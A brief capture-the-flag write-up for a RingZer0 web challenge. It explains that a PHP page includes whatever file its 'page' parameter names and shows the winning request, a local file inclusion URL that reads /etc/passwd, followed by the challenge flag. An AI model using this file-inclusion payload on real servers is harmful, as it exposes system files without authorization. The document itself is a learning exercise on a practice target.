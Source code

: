 ##### [Looking for password file](http://ringzer0team.com/challenges/75)
##### Answer
The link say that the php page open files that gives to `page` variable. So we simply use the link bellow instead and read `passwd` file:
```
http://web.ringzer0team.com:13371/index.php?page=/etc/passwd
```
And in the `/etc/passwd` file we can see the flag `FLAG-zH9g1934v774Y7Zx5s16t5ym8Z`.

So we can drink our coffee after submitting the flag. :D
